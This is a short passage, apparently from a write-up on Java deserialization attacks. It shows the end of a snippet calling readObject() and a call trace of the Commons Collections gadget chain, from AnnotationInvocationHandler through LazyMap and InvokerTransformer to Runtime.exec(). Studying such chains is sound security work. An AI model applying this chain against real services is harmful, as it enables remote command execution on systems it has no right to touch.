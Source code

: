 ```java
        ois.readObject();

    }
}
```

### Gadget Chain

```text
ObjectInputStream.readObject()
	AnnotationInvocationHandler.readObject()
		Map(Proxy).entrySet()
			AnnotationInvocationHandler.invoke()
				LazyMap.get()
					ChainedTransformer.transform()
						ConstantTransformer.transform()
						InvokerTransformer.transform()
							Method.invoke()
								Class.getMethod()
						InvokerTransformer.transform()
							Method.invoke()
								Runtime.getRuntime()
						InvokerTransformer.transform()
							Method.invoke()
								Runtime.exec()				
								

